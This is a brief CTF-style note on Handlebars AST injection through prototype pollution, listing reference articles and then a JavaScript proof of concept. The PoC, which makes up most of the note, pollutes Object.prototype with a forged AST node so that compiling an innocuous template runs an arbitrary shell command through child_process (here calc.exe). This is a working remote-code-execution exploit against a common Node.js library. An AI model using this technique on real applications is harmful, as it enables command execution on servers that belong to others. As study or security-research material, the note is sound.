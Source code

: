 ## 文章

[Handlebars AST注入 _ Tyaoo's Blog](F:\LocalCTF\Handlebars AST注入 _ Tyaoo's Blog.html)

[NodeJS - __proto__ & prototype Pollution - HackTricks](F:\LocalCTF\NodeJS - __proto__ & prototype Pollution - HackTricks.html)

[AST注入 - 先知社区](F:\LocalCTF\AST注入 - 先知社区.html)

## POC

```javascript
const Handlebars = require('handlebars');

Object.prototype.type = 'Program';
Object.prototype.body = [{
    "type": "MustacheStatement",
    "path": 0,
    "params": [{
        "type": "NumberLiteral",
        "value": "console.log(process.mainModule.require('child_process').execSync('calc.exe').toString())"
    }],
    "loc": {
        "start": 0
    }
}];


var source = "<h1>It works!</h1>";
var template = Handlebars.compile(source);
console.log(template({}));
```


